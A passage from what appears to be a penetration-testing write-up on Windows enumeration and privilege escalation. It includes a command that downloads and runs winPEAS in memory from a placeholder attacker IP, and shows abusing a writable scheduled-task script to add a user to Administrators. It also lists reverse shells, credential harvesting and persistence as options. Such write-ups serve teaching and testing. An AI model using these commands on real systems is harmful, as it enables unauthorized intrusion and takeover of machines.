 ```ps1
PS C:\Users\john> net user john
```


We can check scheduled tasks:

```ps1
PS C:\Users\john> schtasks /query /fo LIST /v
```

Similar to linpeas, it exists the winpeas script. We can run it without touching the disk with:

```ps1
PS C:\Users\john> powershell "IEX(New-Object Net.WebClient).downloadString('http://<attacking-machine-IP>:8080/winPEAS.ps1')" > winpeas.txt
```

This will list write permissions in unsual places, open ports, user information (SID, groups and privileges) and system information.

To check permissions on files, we can use `icacls`, it manages NTFS file system permissions, specifically the discretionary access control lists (DACLs), allowing administrators to view, modify, grant, deny, or remove permissions on files and directories:

```ps1
PS C:\\ProgramData> icacls "C:\\ProgramData\\CorpBackup\\Scripts\\backupprep.ps1"

C:\\ProgramData\\CorpBackup\\Scripts\\backupprep.ps1 Everyone:(I)(F)
                                                 NT AUTHORITY\\SYSTEM:(I)(F)
                                                 BUILTIN\\Administrators:(I)(F)
                                                 BUILTIN\\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

## Windows Privilege Escalation

Looks like we identified one scheduled task and we have write access to the script. We can perform:

- Script modification for code injection - Add a user to the administrators group and add a reverse shell
- Credential harvesting - Dump credentials or use it as a keylogger
- Persistence via task hijacking - Append code to maintain access by creating a new scheduled task that runs our payload frequently
- Changing Passwords - Change administrator’s password and create a new RDP session as the user Administrator

Since the script is executed with `Administrator` permission, we can use it to add the user to administrators group:

```ps1
Add-LocalGroupMember -Group "Administrators" -Member "WIN01\\john"
```

Now, we wait two minutes and the user will be in the `Administrators` group.

## Windows Pillaging
